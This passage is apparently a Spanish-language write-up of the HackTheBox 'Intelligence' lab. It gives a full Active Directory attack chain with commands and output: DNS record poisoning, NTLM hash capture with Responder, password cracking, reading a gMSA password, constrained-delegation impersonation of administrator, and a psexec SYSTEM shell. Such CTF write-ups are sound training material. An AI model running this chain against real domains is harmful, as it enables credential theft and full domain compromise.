Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
~~~
Leyendo el contenido esto dice que se ejecuta cada 5 minutos, tambien menciona que este script analiza registros DNS del dominio y busca los que empieza con `WEB` para de esa forma si la encuentra utiliza al usuario `Ted.Graves` para poder enviar un email.
Pero lo importante de esto es que emplea `UseDefaultCredentials`, con todo esto se podria hacer un DNS Poison y poder recibir el NTLM del usuario `Ted.Graves` si es que el script se ejecuta cada 5 minutos como dice.
### DNS Poison
Lo primero es agregar el registro DNS apuntando a mi IP con un nombre `web-test`, esto on la herramienta `dnstool`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ dnstool -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 --action add --record web-test --data 10.10.14.28 --type A -dns-ip 10.129.95.154 intelligence.htb 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
~~~
Con esto programado, solo queda activar responder para abrir todos los puertos necesarios y que este se logre capturar el hash.
~~~bash
──(kali㉿kali)-[~/htb/intelligence/exploits]
└─$ sudo responder -I tun0                                                        
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.28]
    Responder IPv6             [dead:beef:2::101a]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-PRPLIERSYPZ]
    Responder Domain Name      [H52F.LOCAL]
    Responder DCE-RPC Port     [45045]

[+] Listening for events...                                                                                                                                 

[HTTP] NTLMv2 Client   : 10.129.95.154
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:1b28ea0f46209f63:DC6BB47EF82005C608391ECDC5B960BD:0101000000000000D921467471BBDC01C3B0502A2BB825480000000002000800480035003200460001001E00570049004E002D005000520050004C004900450052005300590050005A000400140048003500320046002E004C004F00430041004C0003003400570049004E002D005000520050004C004900450052005300590050005A002E0048003500320046002E004C004F00430041004C000500140048003500320046002E004C004F00430041004C00080030003000000000000000000000000020000030E0CFF5C1B05F4D2A0CE4B71B617E68D58ED960BE53F30898C4E33AC8ACDBF40A0010000000000000000000000000000000000009003C0048005400540050002F007700650062002D0074006500730074002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000  
~~~
Luego de esperar mas de 5 minutos, si se logro obtener el hash NTLM del usuario `Ted.Graves`, ahora es cosa de descifrarla y esperar que sea descifrable.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/content]
└─$ sudo john hash_ted --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)     
1g 0:00:00:08 DONE (2026-03-23 22:38) 0.1204g/s 1303Kp/s 1303Kc/s 1303KC/s Mrz.deltasigma..Morgant1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
~~~
Si se logro obtener la contraseña, este usuario si es valido en el dominio.
### GMSA
Realizando mas enumeración no fue posible encontrar una forma de escalar privilegios, asi que realizo enumeración con bloodhound.
Dentro de bloodhound se puede ver que este usuario tiene permisos GMSA sobre `svc_int$`.

Aprovechando esto, se puede obtener su NTLM.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ sudo netexec ldap 10.129.95.154 -u 'Ted.Graves' -p 'Mr.Teddy' --gmsa            
LDAP        10.129.95.154   389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
LDAPS       10.129.95.154   636    DC               [+] intelligence.htb\Ted.Graves:Mr.Teddy 
LDAPS       10.129.95.154   636    DC               [*] Getting GMSA Passwords
LDAPS       10.129.95.154   636    DC               Account: svc_int$             NTLM: 3c356107d6b589fdfc215e2c3de484b5     PrincipalsAllowedToReadPassword: ['DC$', 'itsupport'] 
~~~
### AllowedToDelegate
Siguiendo con bloohound, el usuario `svc_int$` tiene permisos de delegacion sobre el dominio.

Este tipo de permisos se puede aprovechar empleando los SPN y poder suplantar a un usuario cambiando su delegación.
Para ello primero se tiene que ver el SPN con permisos, esto se puede ver en bloodhound.

O mi forma favorita con mas informacion, con una herramienta de impacket `findDelegation`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ impacket-findDelegation 'intelligence.htb/svc_int$' -hashes :3c356107d6b589fdfc215e2c3de484b5 -dc-ip 10.129.95.154
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType                          DelegationType                      DelegationRightsTo       SPN Exists 
-----------  -----------------------------------  ----------------------------------  -----------------------  ----------
DC$          Computer                             Unconstrained                       N/A                      Yes        
svc_int$     ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  WWW/dc.intelligence.htb  No  
~~~
Sabiendo eso ya se puede generar un ticket falso suplantando otro usuario con un servicio mas util, como `cifs` que tiene mas poder, o ldap. Todo con la herramienta `getST`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/exploits]
└─$ impacket-getST -spn 'www/dc.intelligence.htb' -impersonate 'administrator' -altservice 'cifs' -hashes :3c356107d6b589fdfc215e2c3de484b5 'intelligence.htb/svc_int$'
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from www/dc.intelligence.htb@INTELLIGENCE.HTB to cifs/dc.intelligence.htb@INTELLIGENCE.HTB
[*] Saving ticket in administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
~~~
Con el ticket ya se puede dumpear el dominio, o en mi caso entrar por psexec.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/exploits]
└─$ export KRB5CCNAME=$(pwd)/administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/intelligence/exploits]
└─$ impacket-psexec -k -no-pass dc.intelligence.htb
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file NFcoyWWo.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service bJiC on dc.intelligence.htb.....
[*] Starting service bJiC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso de administrator, solo es cosa de leer la root flag.
~~~powershell
C:\Users> cd administrator
C:\Users\Administrator> cd desktop
C:\Users\Administrator\Desktop> type root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

